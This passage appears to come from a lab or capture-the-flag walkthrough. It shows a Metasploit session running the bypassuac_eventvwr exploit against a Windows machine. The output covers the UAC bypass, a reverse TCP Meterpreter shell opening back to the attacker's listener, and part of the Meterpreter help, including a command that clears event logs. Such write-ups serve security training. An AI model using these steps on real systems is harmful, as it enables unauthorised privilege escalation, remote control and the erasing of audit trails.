 ```bash
View the full module info with the info, or info -d command.

```

Now run the exploit
```bash
msf6 exploit(windows/local/bypassuac_eventvwr) > run
[*] Started reverse TCP handler on 10.9.8.180:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (177734 bytes) to 10.10.37.29
[*] Cleaning up registry keys ...
[*] Meterpreter session 2 opened (10.9.8.180:4444 -> 10.10.37.29:49280) at 2025-07-19 06:54:10 -0400

meterpreter > background
msf6 exploit(windows/local/bypassuac_eventvwr) > sessions 

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.9.8.180:4444 -> 10.10.37.29:49245 (10.10.37.29)
  2         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.9.8.180:4444 -> 10.10.37.29:49280 (10.10.37.29)

msf6 exploit(windows/local/bypassuac_eventvwr) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
```

To verify that we have expanded permissions, use the command `getprivs`
```bash
meterpreter > ?
Stdapi: System Commands
=======================

    Command                   Description
    -------                   -----------
    clearev                   Clear the event log
    drop_token                Relinquishes any active impersonation token.
    execute                   Execute a command
    getenv                    Get one or more environment variable values
    getpid                    Get the current process identifier
    getprivs                  Attempt to enable all privileges available to the current process
    getsid                    Get the SID of the user that the server is running as
    getuid                    Get the user that the server is running as
    kill                      Terminate a process
    localtime                 Displays the target system local date and time
    pgrep                     Filter processes by name
    pkill                     Terminate processes by name
    ps                        List running processes
    reboot                    Reboots the remote computer
    reg                       Modify and interact with the remote registry
    rev2self                  Calls RevertToSelf() on the remote machine
    shell                     Drop into a system command shell
```